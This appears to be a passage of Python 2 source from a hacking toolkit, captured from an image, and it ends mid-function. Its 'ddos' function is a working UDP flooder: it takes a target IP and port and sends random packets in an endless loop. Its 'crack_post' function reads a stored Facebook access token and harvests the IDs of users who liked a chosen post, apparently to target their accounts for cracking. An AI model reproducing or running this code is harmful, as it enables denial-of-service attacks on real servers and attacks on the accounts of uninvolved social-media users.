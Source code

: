 # tools ddos
def ddos():
    os.system("clear")
    print logo
    print "\033[36;1m[\033[34;1m+\033[36;1m]\033[31;1m"+30*"─"+"\033[36;1m[\033[34;1m+\033[36;1m]\033[31;1m"
    now = datetime.now()
    hour = now.hour
    minute = now.minute
    day = now.day
    month = now.month
    year = now.year
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    bytes = random._urandom(1490)
    ip = raw_input('\033[37;1mIP Target : ')
    port = input('\033[37;1mPort       : ')
    os.system('clear')
    sent = 0
    while True:
        sock.sendto(bytes, (ip, port))
        sent = sent + 1
        port = port + 1
        print 'Sent %s packet to %s throught port:%s' % (sent, ip, port)
        if port == 65534:
            port = 1



# tools crack
def crack_post():
    os.system('clear')
    try:
        toke = open('login.txt', 'r').read()
    except IOError:
        print '\033[37;1m[\033[31;1m!\033[37;1m] Token invalid'
        os.system('rm -rf login.txt')
        time.sleep(0.01)
        login()

    try:
        os.system('clear')
        print logo
        print '\033[31;1m[\033[33;1m+\033[31;1m]'+40*'\033[33;1m─'+'\033[31;1m[\033[33;1m+\033[31;1m]'
        po = raw_input('\033[37;1m{\033[32;1m*\033[37;1m}\033[34;1m ID Post Group or Friend : ')
        print '\033[31;1m[\033[33;1m+\033[31;1m]'+40*'\033[33;1m─'+'\033[31;1m[\033[33;1m+\033[31;1m]'
        r = requests.get('https://graph.facebook.com/' + po + '/likes?limit=9999999&access_token=' + toke)
        z = json.loads(r.text)
        for i in z['data']:
            id.append(i['id'])
